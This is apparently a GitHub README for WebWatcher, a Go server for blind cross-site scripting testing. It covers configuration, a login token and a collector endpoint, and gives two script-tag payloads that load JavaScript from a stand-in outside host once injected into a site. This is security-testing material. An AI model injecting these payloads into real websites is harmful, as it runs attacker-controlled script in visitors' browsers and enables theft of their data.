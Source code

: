 # WebWatcher
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

## Usage
Login to your website with /login?token=[token]

**Application have 2 parts**
![results](_img/results.png)


1. Collecting simple request data from path you specified in config
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
if you specified `"CollectorPath":"example"` in config file and set .js extensions with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.
<script src=https://domain.com/example.js></script>

2. Collecting data from blind XSS
`<script src=https://example.com></script>`
![blind xss](_img/blindxss.png)



